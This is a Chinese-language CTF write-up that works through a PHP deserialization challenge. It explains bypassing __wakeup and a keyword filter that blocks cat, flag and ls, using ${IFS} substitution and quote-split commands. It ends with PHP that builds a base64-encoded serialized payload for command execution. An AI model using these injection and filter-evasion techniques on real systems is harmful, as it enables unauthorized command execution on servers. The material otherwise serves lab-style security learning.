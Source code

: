 一周后

再次尝试

观察代码，接收ctf参数，先base64解码，然后反序列化，反序列化之后会自动调用wakeup函数，wakeup会调用waf对参数args进行过滤：|`、`&`、`;`、空格、`/`、`cat`、`flag`、`tac`、`php`、`ls

释放对象时会调用析构函数，如果method为ping，就会调用ping方法，执行参数中的命令

因此只需要构造一个ease对象，method=ping，args=array("希望执行的命令")，然后序列化、base64加密，将结果作为ctf参数的值传给服务器即可。

##### 绕过wakeup或者waf：

1. 绕过wakeup：

```
1. 只需要使构造的对象属性个数大于源代码中类的属性即可，但该方法对php版本有要求：

- PHP5 < 5.6.25

- PHP7 < 7.0.10

  而根据rp这道题的php版本为PHP/7.4.28
```

2. 绕过waf

```
知识点：
1. 空格：
linux 上当shell是 bash的话 空格可以用 ${IFS}或者$IFS$9 代替
PS: $()与 ` `（反引号）:都是用来作命令替换的，执行括号或者反引号中的命令
 
其他空格绕过例子：
cat${IFS}flag.txt
cat$IFS$9flag.txt
cat<flag.txt
cat<>flag.txt

2. 命令拆分：
在linux下 ls 等价于 l''s  等价于 l""s，都可以执行，其他命令也是一样的，这是一个特性
```

代码框架如下：

```php
<?php

class ease{
    
    private $method;
    private $args;
    function __construct($method, $args) {
        $this->method = $method;
        $this->args = $args;
    }
 
    function __wakeup(){
        foreach($this->args as $k => $v) {
            $this->args[$k] = $this->waf($v);
        }
    }   
}

$args=array("l","s");
$a=new ease("ping",$args);
$data=base64_encode(serialize($a));
echo $data;

```